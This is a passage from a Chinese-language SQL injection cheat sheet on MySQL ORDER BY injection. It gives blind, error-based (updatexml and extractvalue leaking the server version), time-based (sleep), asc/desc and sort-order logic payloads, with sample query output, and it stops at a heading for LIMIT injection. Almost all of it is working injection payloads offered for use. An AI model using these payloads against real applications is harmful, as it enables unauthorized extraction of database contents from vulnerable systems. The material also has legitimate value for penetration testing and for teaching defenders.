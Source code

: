 select * from user order by 1-if(1=(select 1 regexp if(1=1,1,0x00)),1,1);
### 2 报错注入
```mysql
select * from user order by 1-updatexml(1,concat(0x5e24,version(),0x5e24),0);
ERROR 1105 (HY000): XPATH syntax error: '^$5.7.22-0ubuntu18.04.1^$'
mysql> select * from user order by 1-extractvalue(1,concat(0x5e24,version(),0x5e24));
ERROR 1105 (HY000): XPATH syntax error: '^$5.7.22-0ubuntu18.04.1^$'
```
### 3 延时注入
select * from user order by 1-if(ascii(substr(user(),1,1))=114,sleep(5),0);
### 4 asc desc处
#### 1.盲注
```mysql
mysql> select user from user order by user,if(substr(version(),1,1)=5,1,(select 1 union select 2)) desc;
+-------+
| user  |
+-------+
| admin |
| sp4rk |
| test  |
+-------+
```
报错，延时同上
### 5  逻辑区别进行排序
```mysql
mysql> select user from user order by 1-if(1=1,user,user_id);
+-------+
| user  |
+-------+
| admin |
| test  |
| sp4rk |
+-------+
3 rows in set, 3 warnings (0.00 sec)

mysql> select user from user order by 1-if(1=1,user_id,user);
+-------+
| user  |
+-------+
| sp4rk |
| test  |
| admin |
+-------+

payload:    ,if(1=1,user_id,user);
,(case when (1=1) then user_id else user end)
,ifnull(null,user_id)
,rand(1=1)

```
### 6利用报错判断
```mysql
payload:
if(1=1,1,(select 1 union select 2))  正确
if(1=2,1,(select 1 union select 2)) 错误
if(1=1,1,(select 1 from information_schema.tables)) 正确
if(1=2,1,(select 1 from information_schema.tables)) 错误
```
## 0x02 limit注入
